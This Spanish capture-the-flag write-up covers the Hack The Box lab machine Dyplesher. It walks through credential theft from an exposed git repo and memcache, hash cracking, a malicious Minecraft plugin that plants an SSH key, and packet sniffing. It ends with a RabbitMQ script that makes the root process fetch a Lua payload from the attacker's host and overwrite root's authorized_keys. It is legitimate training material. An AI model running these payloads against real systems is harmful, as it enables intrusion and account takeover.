

# Dyplesher

**OS**: Linux \
**Dificultad**: Insano \
**Puntos**: 50

## Resumen

- Git-dumper
- Memcached-cli
- Cracking password hash
- Gogs
- Minecraft plugin
- Wireshark / Tshark
- RabbitMQ / PIKA library
- GTFOBins Lua 

## Nmap Scan

`nmap -Pn -sV -sC -p- 10.10.10.190`

```
Nmap scan report for 10.10.10.190
Host is up (0.075s latency).
Not shown: 65525 filtered ports
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:ca:81:78:ec:27:8f:50:60:db:79:cf:97:f7:05:c0 (RSA)
|   256 e0:d7:c7:9f:f2:7f:64:0d:40:29:18:e1:a1:a0:37:5e (ECDSA)
|_  256 9f:b2:4c:5c:de:44:09:14:ce:4f:57:62:0b:f9:71:81 (ED25519)
80/tcp    open   http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyplesher
3000/tcp  open   ppp?
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=094b36e0a450141a; Path=/; HttpOnly
|     Set-Cookie: _csrf=O0Ch9AFtG4OjlQMT-Lb6o25WXpI6MTU5MDY4NTQxNjE2MDczMDkxMA%3D%3D; Path=/; Expires=Fri, 29 May 2020 17:03:36 GMT; HttpOnly
|     Date: Thu, 28 May 2020 17:03:36 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="O0Ch9AFtG4OjlQMT-Lb6o25WXpI6MTU5MDY4NTQxNjE2MDczMDkxMA==" />
|     <meta name="_suburl" content="" />
|     <meta proper
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=6c777728902badc3; Path=/; HttpOnly
|     Set-Cookie: _csrf=nmeRvzWNghUR9dpav-PmfEqhFFQ6MTU5MDY4NTQyMTU1NjA1NzEzMA%3D%3D; Path=/; Expires=Fri, 29 May 2020 17:03:41 GMT; HttpOnly
|     Date: Thu, 28 May 2020 17:03:41 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="nmeRvzWNghUR9dpav-PmfEqhFFQ6MTU5MDY4NTQyMTU1NjA1NzEzMA==" />
|     <meta name="_suburl" content="" />
|_    <meta
4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
5672/tcp  open   amqp       RabbitMQ 3.7.8 (0-9)
| amqp-info: 
|   capabilities: 
|     publisher_confirms: YES
|     exchange_exchange_bindings: YES
|     basic.nack: YES
|     consumer_cancel_notify: YES
|     connection.blocked: YES
|     consumer_priorities: YES
|     authentication_failure_close: YES
|     per_consumer_qos: YES
|     direct_reply_to: YES
|   cluster_name: rabbit@dyplesher
|   copyright: Copyright (C) 2007-2018 Pivotal Software, Inc.
|   information: Licensed under the MPL.  See http://www.rabbitmq.com/
|   platform: Erlang/OTP 22.0.7
|   product: RabbitMQ
|   version: 3.7.8
|   mechanisms: PLAIN AMQPLAIN
|_  locales: en_US
11211/tcp open   memcache?
25562/tcp open   unknown
25565/tcp open   minecraft?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, LDAPSearchReq, LPDString, SIPOptions, SSLSessionReq, TLSSessionReq, afp, ms-sql-s, oracle-tns: 
|     '{"text":"Unsupported protocol version"}
|   NotesRPC: 
|     q{"text":"Unsupported protocol version 0, please use one of these versions:
|_    1.8.x, 1.9.x, 1.10.x, 1.11.x, 1.12.x"}
25572/tcp closed unknown
25672/tcp open   unknown
```

## Enumeración

Al acceder al puerto 80 nos encontramos con un nombre de dominio el cual agregamos a nuestro archivo **/etc/hosts**.

##### /etc/hosts
```
10.10.10.190    dyplesher.htb test.dyplesher.htb
```

`http://10.10.10.190/`


También podemos ver que hay un formulario de inicio de sesión.

`http://10.10.10.190/login`


`http://test.dyplesher.htb/`


En el puerto 3000 podemos ver la aplicación llamada **gogs** que por el momento no podemos acceder, ya que no contamos con credenciales.

`http://dyplesher.htb:3000/`


Después de enumerar directorios y archivos, nos encontramos con **/.git/HEAD**.

`gobuster dir -u http://test.dyplesher.htb/ -w /usr/share/wordlists/dirb/common.txt`


Utilizando [git-dumper](https://github.com/arthaud/git-dumper) descargaremos los archivos que se encuentran en ese repositorio git.

- `mkdir git`
- `python3 /opt/git-dumper/git-dumper.py http://test.dyplesher.htb/ git/`


Se puede ver que en el archivo **index.php** que nos trajo git-dumper se encuentran credenciales para el servicio **memcache** que está en el puerto **11211**.

##### index.php
```php
<HTML>
<BODY>
<h1>Add key and value to memcache<h1>
<FORM METHOD="GET" NAME="test" ACTION="">
<INPUT TYPE="text" NAME="add">
<INPUT TYPE="text" NAME="val">
<INPUT TYPE="submit" VALUE="Send">
</FORM>

<pre>
<?php
if($_GET['add'] != $_GET['val']){
        $m = new Memcached();
        $m->setOption(Memcached::OPT_BINARY_PROTOCOL, true);
        $m->setSaslAuthData("felamos", "zxcvbnm");
        $m->addServer('127.0.0.1', 11211);
        $m->add($_GET['add'], $_GET['val']);
        echo "Done!";
}
else {
        echo "its equal";
}
?>
</pre>

</BODY>
</HTML>
```

## Memcached-cli

Necesitaremos instalar [memcached-cli](https://www.npmjs.com/package/memcached-cli) para conectarnos al puerto **11211** con las credenciales obtenidas.

> Memcached es empleado para el almacenamiento en caché de datos u objetos en la memoria RAM, reduciendo así las necesidades de acceso a un origen de datos externo (como una base de datos o una API).

> Para instalar memcached-cli es necesario tener nodejs y npm en el sistema: \
npm install -g memcached-cli

Después de conectarnos conseguiremos nombres de usuarios y passwords encriptados.

- `memcached-cli felamos:zxcvbnm@10.10.10.190:11211`
- `get username`
- `get password`


### Cracking password hash

Para obtener el password en texto plano utilizaremos **john**. El único hash que nos regresa un password es **$2y$12$c3SrJLybUEOYmpu1RVrJZuPyzE5sxGeM0ZChDhl8MlczVrxiA3pQK**

`sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`


## Gogs

Con el password obtenido podemos iniciar sesión en la página **gogs** con el usuario **felamos**.


En el repositorio **gitlab** en la parte de **releases** se encuentra un archivo llamado **repo.zip** el cual descargamos.


Después de descomprimir **repo.zip** podemos ver que hay 4 directorios los cuales contienen archivos **.bundle**, procedemos a usar git para clonarlos.

```
git clone @hashed/4b/22/4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a.bundle
git clone @hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce.bundle
git clone @hashed/6b/86/6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b.bundle
git clone @hashed/d4/73/d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35.bundle
```


Revisando los directorios podemos ver **users.db** en **4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/plugins/LoginSecurity** que contiene otro hash.


Obtenemos el password como lo hicimos anteriormente.

`sudo john db_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`


Si recordamos tenemos otro formulario de inicio de sesión, usaremos el password con el usuario **felamos@dyplesher.htb**.


## Minecraft plugin

En el apartado **Add plugin** al intentar subir cualquier tipo de archivo nos arroja el error **Please upload valid minecraft plugin!**.


Nos apoyamos de este [video](https://www.youtube.com/watch?v=XaU8JKQW0Ao) para generar un **minecraft plugin** con nuestro payload.

Después de probar muchas cosas, nuestro payload final fue escribir nuestra llave publica en el archivo **authorized_keys** del usuario **MinatoTW** esto se consiguió a prueba y error con los usuarios que teníamos del **memcache**.

Dejaré un video de como es el proceso de creacion, ya que será más fácil visualizarlo.

> Para evitar problemas podemos instalar openjdk 8 \
sudo apt install openjdk-8-jdk openjdk-8-jre

[](img/plugin.mp4)

##### Main.java
```java
package htb.dyplesher.doom;

import java.io.FileWriter;
import java.io.IOException;
import org.bukkit.plugin.java.JavaPlugin;

public class Main extends JavaPlugin {
        public void onEnable() {
                try {
                        FileWriter fileWriter = new FileWriter("/home/MinatoTW/.ssh/authorized_keys");
                        fileWriter.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDtGjUZDyFu7xhLN87g8GNdzv9XvXp0Imo1DH6xmVESXPf3rkMcQYe+0He9780jnkZ8b2XSrjtCHQ8ic18fa8F83QF2aWZxNS71iFCZKH8i+H8Es0WbHQ+BItcp4JROSvVrI7QqbXoCOld22tcuanqHr5BPZglNyDl7VocEqySLqjxu8gltc+rrupw7pMyZK0l0NaQuiIZqSj9osig8BRaS/a/HBumvCnTxW9cDks1XOFVD6J/WxdRfvCHRFkwTlrTOlcBg8YkVeTiCGf1I/RTabsa6rWLSWMM6VmpQQb3N2Oc4WQBTiyC8WZ7hYuXE3s5YBhKU4FwTLLJo3onk4k3caLsBxppWWtttTz70NXj9+5kaArttf8++4pYQwOUla5ziWjAEM1bahQPKePpuCFdauLdUW+TlCPKhqOCZ5Oqr0NdQE2FkvNLQ4EEUdsc7FgsSryNaFbDCla0M+70GO6BPYBs54glINfSnLxhQuqXPsCnkNvD9gnGGY6Zjv1BzYEc= marty@mcfly");
                        fileWriter.close();
                        getLogger().info("works");
                } catch (IOException iOException) {
                        getLogger().info("fail");
                }
        }

        public void onDisable() {

        }
}
```

##### plugin.yml
```yml
name: DoomSSH
version: 1.0
main: htb.dyplesher.doom.Main
```

## Escalada de Privilegios (User)

Podemos ver que el usuario pertenece al grupo **wireshark** esto nos permitirá capturar el tráfico que está pasando por la red.



Usaremos **tshark** para capturar el tráfico y el archivo generado lo pasaremos a nuestra máquina.

- `tshark -i any -a duration:60 -w dump.pcap`
- `scp MinatoTW@10.10.10.190:/home/MinatoTW/dump.pcap .`


Analizando el tráfico con wireshark podemos ver una trama interesante que contiene cuentas de usuarios.


Entre las que nos interesan:

```
- felamos: tieb0graQueg
- yuntao: wagthAw4ob
- MinatoTW: bihys1amFov
- RabbitMQ
   yuntao: EashAnicOc3Op
```


Probando las credenciales accedemos con el usuario **felamos**.

`su felamos`


## Escalada de Privilegios (Root)

Utilizamos **pspy** para saber si hay algún proceso interesante.

- `scp /opt/linux/pspy64 felamos@10.10.10.190:/tmp/`
- `./pspy64`


Podemos ver que hay 2 procesos interesantes uno sobre **rabbittmq** y otro sobre un archivo **lua**.

> RabbitMQ es un broker de mensajería de código abierto, distribuido y escalable, que sirve como intermediario para la comunicación eficiente entre productores y consumidores. RabbitMQ implementa el protocolo mensajería de capa de aplicación AMQP (Advanced Message Queueing Protocol), el cual está enfocado en la comunicación de mensajes asíncronos con garantía de entrega

> Un archivo LUA es un archivo de código fuente escrito en Lua, un lenguaje de programación ligero diseñado para extender aplicaciones.


### PIKA library / LUA

Después de investigar sobre lo anterior mencionado podemos conectarnos al servicio **RabbitMQ** haciendo uso de la librería **PIKA** de python y mandarle nuestro archivo **lua** que contendrá nuestro payload. \
Para generar los siguientes scripts nos apoyamos de los enlaces que están en las referencias.

> Para instalar la librería pika se puede hacer de la siguiente manera: \
sudo pip install pika

Primero creamos nuestro script y el archivo lua:

> Es necesario utilizar un puerto que no sea el 80, ya que hay firewall que no deja conectarse por lo tanto use el mismo puerto que corre memcache.

##### exploit.py
```python
import pika

credentials = pika.PlainCredentials('yuntao', 'EashAnicOc3Op')
parameters = pika.ConnectionParameters('10.10.10.190',5672,'/',credentials)
connection = pika.BlockingConnection(parameters)
channel = connection.channel()
channel.basic_publish(exchange='', routing_key='plugin_data', body='http://10.10.15.30:11211/doom.lua')
connection.close()
```

##### doom.lua
```lua
file = io.open("/root/.ssh/authorized_keys", "w")
file:write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDtGjUZDyFu7xhLN87g8GNdzv9XvXp0Imo1DH6xmVESXPf3rkMcQYe+0He9780jnkZ8b2XSrjtCHQ8ic18fa8F83QF2aWZxNS71iFCZKH8i+H8Es0WbHQ+BItcp4JROSvVrI7QqbXoCOld22tcuanqHr5BPZglNyDl7VocEqySLqjxu8gltc+rrupw7pMyZK0l0NaQuiIZqSj9osig8BRaS/a/HBumvCnTxW9cDks1XOFVD6J/WxdRfvCHRFkwTlrTOlcBg8YkVeTiCGf1I/RTabsa6rWLSWMM6VmpQQb3N2Oc4WQBTiyC8WZ7hYuXE3s5YBhKU4FwTLLJo3onk4k3caLsBxppWWtttTz70NXj9+5kaArttf8++4pYQwOUla5ziWjAEM1bahQPKePpuCFdauLdUW+TlCPKhqOCZ5Oqr0NdQE2FkvNLQ4EEUdsc7FgsSryNaFbDCla0M+70GO6BPYBs54glINfSnLxhQuqXPsCnkNvD9gnGGY6Zjv1BzYEc= marty@mcfly")
file:close()
```

Levantamos nuestro servidor web y ejecutamos el exploit:

- `python3 -m http.server 11211`
- `python exploit.py`


Una vez que recibimos la petición nos podemos conectar por SSH.

`ssh root@10.10.10.190`


## Referencias
https://github.com/arthaud/git-dumper \
https://www.npmjs.com/package/memcached-cli \
https://www.youtube.com/watch?v=XaU8JKQW0Ao \
https://bukkit.gamepedia.com/Plugin_Tutorial \
https://www.rabbitmq.com/tutorials/tutorial-one-python.html \ 
https://pika.readthedocs.io/en/stable/modules/parameters.html \
https://gtfobins.github.io/gtfobins/lua/